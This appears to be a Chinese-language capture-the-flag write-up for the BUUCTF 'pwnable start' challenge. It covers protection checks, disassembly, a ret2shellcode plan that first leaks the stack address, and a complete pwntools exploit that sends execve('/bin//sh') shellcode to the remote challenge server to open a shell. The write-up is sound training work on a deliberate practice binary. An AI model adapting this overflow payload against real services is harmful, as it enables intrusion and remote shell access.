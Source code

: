 ```yaml
---
author: 
  name: Zephyr
title: pwnable start
date: 2022-4-17 09:15:09
permalink: /pages/2e1547494524d1b9
tags: 
  - buuctf
  - pwn
---
```


# pwnable start

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/pwnable_start/start'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

程序汇编代码如下：

```asm
start:     file format elf32-i386
Disassembly of section .text:
08048060 <_start>:
 8048060:	54                   	push   %esp
 8048061:	68 9d 80 04 08       	push   $0x804809d
 804806e:	68 43 54 46 3a       	push   $0x3a465443
 8048073:	68 74 68 65 20       	push   $0x20656874
 8048078:	68 61 72 74 20       	push   $0x20747261
 804807d:	68 73 20 73 74       	push   $0x74732073
 8048082:	68 4c 65 74 27       	push   $0x2774654c
 8048087:	89 e1                	mov    %esp,%ecx
 8048089:	b2 14                	mov    $0x14,%dl
 804808b:	b3 01                	mov    $0x1,%bl
 804808d:	b0 04                	mov    $0x4,%al
 804808f:	cd 80                	int    $0x80
 ; write(1,esp,0x14)
 8048091:	31 db                	xor    %ebx,%ebx
 8048093:	b2 3c                	mov    $0x3c,%dl
 8048095:	b0 03                	mov    $0x3,%al
 8048097:	cd 80                	int    $0x80
 ; read(0,esp,0x3c) 
 8048099:	83 c4 14             	add    $0x14,%esp     ; 栈溢出
 804809c:	c3                   	ret    
0804809d <_exit>:
 804809d:	5c                   	pop    %esp
 804809e:	31 c0                	xor    %eax,%eax
 80480a0:	40                   	inc    %eax
 80480a1:	cd 80                	int    $0x80
```

## 思路分析

1. 目前信息：

   - 返回到`esp+0x14`处，但`esp`处可读入`0x3c`长度数据，存在栈溢出
   - No RELRO
   - No canary found
   - NX disabled
   - No PIE
3. 思路

   - 保护全关，考虑`ret2shellcode`，`ret2shellcode`需要先泄漏栈地址，利用栈溢出第一次`ret`到`8048087`处，这时栈顶刚好是程序一开始压栈的`esp`，并且传递给`ecx`，接着`write`系统调用将基址泄漏出来，另外二次写入的地址也是这个泄露出来的基址，常规`ret2shellcode`即可获得`shell`，需要注意的是最后返回到`esp+0x14`处，所以`shellcode`也要对应抬高栈帧


## exp
```shell
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/pwnable_start/start'
io = remote('node4.buuoj.cn', 29235)
#io = process(pwnfile)
padding = 0x14
leak_addr = 0x8048087
io.sendafter("Let's start the CTF:", flat(['a'*padding, leak_addr]))
esp = u32(io.recv(4))
log.success("esp:"+hex(esp))
shellcode = asm("""
    xor edx,edx;
    xor ecx,ecx;
    push edx;
    push 0x68732f6e;
    push 0x69622f2f;
    mov ebx,esp;
    mov eax,0xb;
    int 0x80;
    """)
log.success("shellcode lenth:"+hex(len(shellcode)))
payload = flat(['a'*padding, esp+padding, shellcode])
io.send(payload)
io.interactive()
```

